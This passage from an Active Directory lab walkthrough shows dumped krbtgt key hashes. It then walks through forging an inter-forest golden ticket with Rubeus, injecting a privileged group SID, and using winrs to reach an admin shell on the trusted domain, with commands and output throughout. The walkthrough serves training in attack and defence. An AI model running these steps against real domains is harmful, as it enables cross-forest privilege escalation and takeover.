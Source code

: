 ```powershell

Supplemental Credentials:
* Primary:Kerberos-Newer-Keys *
    Default Salt : EU.LOCALkrbtgtEUVENDOR
    Default Iterations : 4096
    Credentials
      aes256_hmac       (4096) : 390ad4eb646156b9a5f734b1fe9906bb81b4ed6f36e8450e6522ed947dd4f701
      aes128_hmac       (4096) : 3321d2aaa0bfaeff826f3e8bdf7c4f6f
      des_cbc_md5       (4096) : ea3e49b913313df4
    OldCredentials
      aes256_hmac       (4096) : 2b58983bd8cc14b9929e89e8232f0ffc1609ce327db4080a50cdbb882be3db4c
      aes128_hmac       (4096) : c5a11f6998166e1429dd4547b9e9c859
      des_cbc_md5       (4096) : ea3e49b913313df4
    OlderCredentials
      aes256_hmac       (4096) : 6a33aa7540f5ff9b0c4fbb4f61a61a59b072c2d93ce1ffae200bd41e909df4ce
      aes128_hmac       (4096) : 012d3334ddca9eceedf26e4d82d3e7f8
      des_cbc_md5       (4096) : a86b685d9ba8c264

<snip>
```
- Then, using **Rubeus**, we will create the Inter-Forest TGT injecting the SID of EUAdmins domain group.
```powershell
PS C:\Windows\Tasks> .\Rubeus.exe golden /rc4:a1f7ae6e6ce21b2e0fbaf3f44e67d42f /domain:eu.local /sid:S-1-5-21-3657428294-2017276338-1274645009-500 /sids:S-1-5-21-4066061358-3942393892-617142613-1103 /user:Administrator /service:krbtgt /target:euvendor.local /nowrap
.\Rubeus.exe golden /rc4:a1f7ae6e6ce21b2e0fbaf3f44e67d42f /domain:eu.local /sid:S-1-5-21-3657428294-2017276338-1274645009-500 /sids:S-1-5-21-4066061358-3942393892-617142613-1103 /user:Administrator /service:krbtgt /target:euvendor.local /nowrap

<snip>
```
- We will use the forged TGT and try to request access to various resources. We could assume that members of the EUAdmins could possibly have access rights to specific computers in `euvendor.local`.
```powershell
PS C:\Windows\Tasks> .\Rubeus.exe asktgs /user:Administrator /domain:euvendor.local /dc:euvendor-dc.euvendor.local /service:http/euvendor-net.euvendor.local /ptt /ticket:doIFczCCBW+gAwIB...
```
- We can now check if we can access `EUVENDOR-NET`.
```powershell
PS C:\Windows\Tasks> winrs -r:euvendor-net.euvendor.local powershell
winrs -r:euvendor-net.euvendor.local powershell
Windows PowerShell
Copyright (C) Microsoft Corporation. All rights reserved.

PS C:\Users\Administrator.EU> net localgroup Administrators
net localgroup Administrators
Alias name     Administrators
Comment        Administrators have complete and unrestricted access to the computer/domain

Members

-------------------------------------------------------------------------------
Administrator
EUVENDOR\Domain Admins
EUVENDOR\euadmins
The command completed successfully.
```
- We can see that members of the EUAdmins domain group are members of the local administrators group. Although `eu\Administrator` was NOT a member of this domain group as a Foreign Security Principal, we were able to forge an Inter-Forest ticket and inject the SID of that domain group to it, due to lax SID Filtering configuration. That resulted in inheriting the rights, privileges and permissions that this domain group has.